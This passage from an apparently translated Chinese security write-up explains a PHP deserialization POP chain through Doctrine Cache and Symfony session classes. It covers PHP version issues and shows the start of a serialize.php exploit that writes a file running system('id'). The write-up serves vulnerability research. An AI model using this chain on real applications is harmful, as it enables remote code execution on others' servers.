在本文的 POP 链中，因为我们使用了两个基于 `__destruct()` 定义的不同链，所以快速析构是强制性的，

剩下还包括 PHP 的版本差异问题，PHP 版本对构造 POP 链很重要，由于所有的演示都是从 PHP 8 中进行的，它与 `TypedCacheItem` 兼容。然而， `TypedCacheItem` 与 PHP 7 应用程序不兼容，以下错误是从任何以前的 POP 链上的 `CacheAdapter` 引发的。

```bash
$ php unserialize.php 
Parse error: syntax error, unexpected 'private' (T_PRIVATE), expecting variable (T_VARIABLE) in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/TypedCacheItem.php on line 24
```

类型定义在这里再次成为一个问题。正如本文前面所讨论的， `defferedItems` 有两个可能的值： `TypedCacheItem` 或 `CacheItem` ，`CacheItem` 应该在 PHP 7 之前或之前的版本上使用，如果 `doctrine/doctrine-bundle` 项目是从 PHP 8 安装的，当使用 `CacheItem` 而不是 `TypedCacheItem` 时，将触发下面的兼容性问题。

```bash
$ php unserialize.php 
Fatal error: Declaration of Doctrine\Common\Cache\Psr6\CacheItem::get() must be compatible with Psr\Cache\CacheItemInterface::get(): mixed in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheItem.php on line 51
```

因此，出于此原因，POP 链必须根据目标的 PHP 版本进行调整。

## 第五步，全 POP 链

在考虑了最后的每一步完成之后，实现的 `serialize.php` 文件的最终版本如下所示：

```bash
<?php

/* Entrypoint of the POPchain POP 链的入口*/ 
namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class CacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

/* File write objects 文件写入对象*/
namespace Symfony\Component\HttpFoundation\Session\Storage
{
    class MockFileSessionStorage
    {
        public $started = true;
        public $savePath = "/tmp"; // Produces /tmp/aaa.mocksess
        public $id = "aaa"; // File name
        public $data = ['<?php echo "I was TRIGGERED"; system("id"); ?>']; // PHP code executed
    }

    class MetadataBag
    {
        public $storageKey = "a";
    }
```